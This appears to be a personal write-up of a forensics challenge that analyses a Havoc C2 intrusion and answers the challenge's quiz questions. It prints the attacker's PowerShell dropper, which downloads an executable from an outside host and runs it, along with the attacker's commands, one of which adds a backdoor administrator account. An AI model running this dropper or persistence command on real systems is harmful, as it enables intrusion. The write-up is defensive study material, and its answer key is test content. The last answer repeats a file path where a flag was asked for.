 - **install.ps1**

![[../../Image/Pasted image 20250423091359.png]]

```
$aysXS8Hlhf = "http://10.0.2.37:1337/notepad.exe";
$LA4rJgSPpx = "C:\Users\paco\Downloads\notepad.exe";
Invoke-WebRequest -Uri $aysXS8Hlhf -OutFile $LA4rJgSPpx;
$65lmAtnzW8 = New-ObjectSystem.Net.WebClient;$65lmAtnzW8.DownloadFile($aysXS8Hlhf, $LA4rJgSPpx);
Start-Process -Filepath $LA4rJgSPpx
```
- **Object list:**
![[../../Image/Pasted image 20250423095009.png]]
- **notepad.exe**
![[../../Image/Pasted image 20250423100437.png]]
- **Havoc Artifact** from network traffic
```
[+] Parsing Request
[+] Found Havoc C2
  [-] Agent ID: 0e9fb7d8
  [-] Magic Bytes: deadbeef
  [-] C2 Address: http://10.0.2.37/
  [+] Found AES Key
    [-] Key: 946cf2f65ac2d2b868328a18dedcc296cc40fa28fab41a0c34dcc010984410ca
    [-] IV: 8cd00c3e349290565aaa5a8c3aacd430
```
## IOCs
#### **IP Address:**
- hxxp[:]//10.0.2.37
#### **File:**
- /install.ps1
- /notepad.exe
- /notepad.exe

---
## Answer the question

- What is the SID of the user that the attacker is executing everything under?

![[Pasted image 20250422234306.png]]

- What is the Link-local IPv6 Address of the server? Enter the answer exactly as you see it.

![[Pasted image 20250422232038.png]]
=> **fe80::e134:1b0c:c8d5:3020%6**

- The attacker printed a flag for us to see. What is that flag?

![[Pasted image 20250422232647.png]]

- The attacker added a new account as a persistence mechanism. What is the username and password of that account? Format is **username:password** 

![[Pasted image 20250422225827.png]]
```
dir C:\Users\paco\Desktop\
type C:\Users\paco\Desktop\Files\clients.csv
ipconfig
net user administrator WfD3hz3AXZ4n /add
```

- The attacker found an important file on the server. What is the full path of that file?

![[Pasted image 20250422232845.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

- What is the flag found inside the file from question 5?

![[Pasted image 20250422232446.png]]
=> **C:\Users\paco\Desktop\Files\clients.csv**

![[Pasted image 20250423091003.png]]
